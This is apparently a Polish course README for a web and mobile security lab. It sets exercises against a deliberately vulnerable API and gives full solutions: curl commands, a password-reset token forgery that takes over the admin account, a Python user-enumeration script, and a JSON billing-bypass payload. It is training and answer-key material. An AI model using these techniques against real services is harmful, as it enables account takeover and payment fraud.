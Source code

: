 # Projekt bezpieczeństwo aplikacji webowych i mobilnych
## Analiza oraz wykorzystanie podatności w zapytaniach HTTP pomiędzy aplikacją mobilną i API
Instalacja nie jest wymagana, API znajduje się pod adresem https://bawim.tk.  
Do wysyłania zapytań najlepiej użyć narzędzia curl lub serwisu https://postman.co.

## Zadania
[przykładowe] 0. Znajdź wersję aplikacji.  
curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc https://bawim.tk/get_app_version

1. Znajdź ID konta 'admin', a następnie klucz przypisany do konta.
2. Przy użyciu znalezionego klucza wypisz szczegółowe informacje o koncie 'admin'.
3. Zresetuj hasło admina, znając kod funkcji weryfikującej token.  
![alt text](https://github.com/matih123/bawim/blob/master/verify.png)  
4. Zaloguj się na konto admina (podaj id sesji).  
5. Znajdź użytkownika, który ma na koncie $1.000.000.  
podpowiedź: napisz prosty skrypt np. w pythonie (moduł requests).  
![alt text](https://github.com/matih123/bawim/blob/master/requests.png)  
6. Ustaw typ konta na premium dowolnemu użytkownikowi.  
podpowiedź: https://youtu.be/MpeaSNERwQA.

## Lista endpointów API

Wszystkie endpointy działają w oparciu o metodę POST oraz wymagają uwierzytelnienia kluczem globalnym (-d key=Re2LPGUMEKa34ik1uhHOBMoc). 

* https://bawim.tk/get_app_version  
parametry: key   
* https://bawim.tk/user/{user_id}  
parametry: key  
* https://bawim.tk/user_data/{user_id}  
parametry: key, user_key  
* https://bawim.tk/login/{username}  
parametry: key, password  
* https://bawim.tk/reset_password/{user_id}  
parametry: key  
* https://bawim.tk/set_password/{user_id}/{token}  
parametry: key, new_password  
* https://bawim.tk/set_premium_account/{user_id}  
parametry: key, billing_token, json - ten endpoint obsługuje dane wejściowe w formacie json (-d json={json_string})  

## Rozwiązania
<details>
  <summary>Pokaż</summary>
  
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc https://bawim.tk/login/admin  
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc https://bawim.tk/user/386  
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc -d user_key=AnbgzkuaayRdT4HIab8lV513 https://bawim.tk/user_data/386  
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc https://bawim.tk/reset_password/386  
  ```python
  # Funkcja generujaca token yKW@n3UoT5n@xU5n@xUu.s
  def generate():
    plaintext = ('386' + 'admin' + 'admin@bawim.tk')[::-1]
    token = ''
    alphabet = string.ascii_letters + string.digits + '@.'
    sbox = '2k8PseIuF.YTWUovx6BqbnOyQ@5dtERZKMc3iwg7jLN40lzpJmrHAShVaf1XCG9D'

    for char in plaintext:
        token += sbox[(alphabet.index(char) + 13) % len(alphabet)]

    return token
  ```
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc -d new_password=<wpisz_nowe_hasło_admina> https://bawim.tk/set_password/386/yKW@n3UoT5n@xU5n@xUu.s  
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc -d password=<wpisz_nowe_hasło_admina> https://bawim.tk/login/admin  
  ```python
   # Znajdywanie użytkownika, który ma na koncie $1.000.000
  import requests, json

  i=0
  while True:
      text = requests.post(f'https://bawim.tk/user/{i}', data={"key": "Re2LPGUMEKa34ik1uhHOBMoc"}).text
      json_data = json.loads(text)
      user_key = json_data['user_key']

      text = requests.post(f'https://bawim.tk/user_data/{i}', data={"key": "Re2LPGUMEKa34ik1uhHOBMoc", "user_key": user_key}).text
      json_data = json.loads(text)
      money = json_data['money_amount']
      username = json_data['username']
      print(username, money)

      if(money == "1000000"): break
      i+=1
```
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc -d json={\"billing_token\":[]} http://bawim.tk/set_premium_account/200  
  
</details>
